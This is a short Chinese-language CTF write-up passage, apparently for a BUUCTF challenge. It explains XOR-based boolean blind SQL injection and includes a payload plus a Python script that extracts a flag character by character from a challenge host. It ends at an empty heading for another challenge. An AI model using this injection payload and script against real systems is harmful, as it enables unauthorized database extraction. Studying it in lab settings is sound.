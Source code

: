 

### 异或

这东西和那个堆叠注入一样，就见过一次，从此再也没用过，但这次就用到了。用它可以起到代替or的作用。
`0^(ascii(substr((select(flag)from(flag)),1,1))>1)`

但还有一些是没有用异或，用的是if，可if有局限性，在id为数字型时，可以直接 `select * from users where id=if(1=1,1,0)`，但如果id单引号字符型或双引号字符型，那就必须在if前加or或and。

就下来就时很容易的`bool注入`了
```py
import requests
import time

url = "http://be7c3bbe-f847-4c30-bfbd-baa005a54773.node3.buuoj.cn/index.php"
payload = {
	"id" : ""
}
result = ""
for i in range(1,100):
	l = 33
	r =130
	mid = (l+r)>>1
	while(l<r):
		payload["id"] = "0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
		html = requests.post(url,data=payload)
		print(payload)
		if "Hello" in html.text:
			l = mid+1
		else:
			r = mid
		mid = (l+r)>>1
	if(chr(mid)==" "):
		break
	result = result + chr(mid)
	print(result)
print("flag: " ,result)
```

---

### [SUCTF 2019]CheckIn





